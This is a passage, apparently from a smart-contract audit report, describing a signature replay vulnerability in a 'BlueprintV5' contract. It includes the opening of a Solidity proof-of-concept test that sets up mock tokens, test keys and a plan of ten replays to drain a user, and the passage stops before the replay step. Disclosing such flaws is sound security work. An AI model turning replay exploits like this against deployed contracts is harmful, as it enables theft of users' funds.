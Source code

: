 While the attacker cannot modify the configuration content (they can only replay the exact signed configuration), the repeated processing of the same update can still cause significant operational disruption.
### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {MockERC20} from "./MockERC20.sol";

/**
 * @title SignatureReplayVulnerabilityTest
 * @notice Minimal POC demonstrating the signature replay vulnerability
 */
contract SignatureReplayVulnerabilityTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;

    // Test user
    uint256 public userPrivateKey;
    address public userAddress;

    // Attacker
    address public attacker = address(0xDEAD);

    // Constants
    uint256 public constant TOKEN_AMOUNT = 100 * 10 ** 18; // 100 tokens
    uint256 public constant UPDATE_COST = 10 * 10 ** 18; // 10 tokens per update
    uint256 public constant NUM_REPLAYS = 10; // Number of replays to completely drain user

    function setUp() public {
        // Create and initialize the blueprint contract
        blueprint = new BlueprintV5();
        blueprint.initialize();

        // Setup mock token
        mockToken = new MockERC20();

        // Set fee collection wallet
        blueprint.setFeeCollectionWalletAddress(address(0xFEE));

        // Set project and worker addresses
        projectId = bytes32(uint256(0x123));
        workerAddress = address(0xCAFE);

        // Setup test user with known private key
        userPrivateKey = 0xB0B;
        userAddress = vm.addr(userPrivateKey);

        // Setup payment token
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setUpdateCreateAgentTokenCost(
            address(mockToken),
            UPDATE_COST
        );
    }

```